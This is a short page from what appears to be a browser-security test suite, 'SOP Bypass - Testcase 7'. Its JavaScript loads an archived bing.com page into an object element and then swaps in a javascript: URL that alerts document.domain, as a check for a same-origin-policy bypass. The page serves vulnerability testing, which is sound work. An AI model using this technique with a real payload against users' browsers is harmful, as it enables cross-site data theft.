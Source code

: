 ```yaml
---
layout: default
title: SOP Bypass - Testcase 7
permalink: /sop/new/7
---
```


<input type="button" id="btn_test" class="test" value="Run Test Case" onclick="myfunction()">
<script>
function myfunction() {
    object = document.createElement("object"); 
    object.setAttribute("data", "https://web.archive.org/web/20180831120256/http://www.bing.com");
    document.body.appendChild(object);
    object.onload = function() {
        object.setAttribute("data", "javascript:alert(document.domain)");
        object.innerHTML = "foobar";
    }
}
</script>

**Note:**
If page displays an alert box displaying bing.com, your browser is vulnerable to SOP bypass.
